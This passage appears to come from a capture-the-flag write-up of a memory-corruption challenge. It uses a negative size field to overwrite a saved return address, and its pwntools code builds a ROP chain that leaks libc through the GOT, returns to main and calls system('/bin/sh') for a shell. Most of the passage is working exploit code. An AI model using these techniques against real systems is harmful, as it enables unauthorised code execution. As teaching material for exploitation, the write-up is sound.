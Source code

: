 As seen in gdb, at the time of the `memcpy` the current frame saved `rip` is
located 0x38 bytes before our buffer. We have to overwrite `file->size` with
-0x38, then send our new `rip` value and fill the buffer until `file->size` and
overwrite it with a big value to exit the do-while :

```py
def rel_write(offset, data, pwned=False):
    if offset < 0:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  0x1004])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause()
        r.send(data.ljust(0x1000 - offset, b"A") + p32(0x133700)) # big value
        pause()
    else:
        r.send(f([UPLOAD,
                  len("write"),
                  b"write",
                  offset + len(data)])
               + b"A"*0x1000 + p32(offset - (0x1004 % 1000), sign="signed"))
        pause() 
        r.send(data)
    if not pwned:
        msg = recv_msg()
        return msg["data"]
```

Once we control `rip` we can ROP to leak the libc base address, then ret2main,
and pop a shell.

I leaked the value of `free` in the GOT the get the libc base address.
```py
"""
" rop
"""
exe_info = exe.address + 0xe27
exe_main = exe.address + 0x1a33


print(f"bss @ {hex(exe.bss())}")
rop = ROP(exe)
rop.raw(rop.find_gadget(["ret"])) # movaps issue
rop.call(exe_info, [exe.got["free"]])
rop.call(exe_main)

leak = rel_write(-0x38, rop.chain())
leak = u64(leak.ljust(8, b"\x00"))

print(f"free @ {hex(leak)}")

libc.address = leak - libc.sym["free"]
print(f"libc @ {hex(libc.address)}")


rop = ROP(libc)
rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
rel_write(-0x38, rop.chain(), pwned=True)
# rel_write(0x1078, rop.chain(), pwned=True)
```
